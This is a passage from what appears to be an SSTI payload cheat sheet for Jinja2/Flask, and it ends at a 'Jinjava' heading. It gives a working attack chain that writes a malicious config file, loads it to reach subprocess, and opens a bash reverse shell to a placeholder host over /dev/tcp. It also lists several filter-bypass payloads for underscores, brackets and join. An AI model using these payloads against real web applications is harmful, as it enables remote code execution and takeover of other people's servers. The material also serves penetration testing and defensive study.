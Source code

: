 #### Exploit the SSTI by writing an evil config file.

```python
# evil config
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} 

# load the evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  

# connect to evil host
{{ config['RUNCMD']('/bin/bash -c "/bin/bash -i >& /dev/tcp/x.x.x.x/8000 0>&1"',shell=True) }} 
```


### Filter bypass

```python
request.__class__
request["__class__"]
```

Bypassing `_`

```python
http://localhost:5000/?exploit={{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}&class=class&usc=_

{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}
{{request|attr(["_"*2,"class","_"*2]|join)}}
{{request|attr(["__","class","__"]|join)}}
{{request|attr("__class__")}}
{{request.__class__}}
```

Bypassing `[` and `]`

```python
http://localhost:5000/?exploit={{request|attr((request.args.usc*2,request.args.class,request.args.usc*2)|join)}}&class=class&usc=_
or
http://localhost:5000/?exploit={{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_
```

Bypassing `|join`

```python
http://localhost:5000/?exploit={{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_
```

## Jinjava

### Basic injection

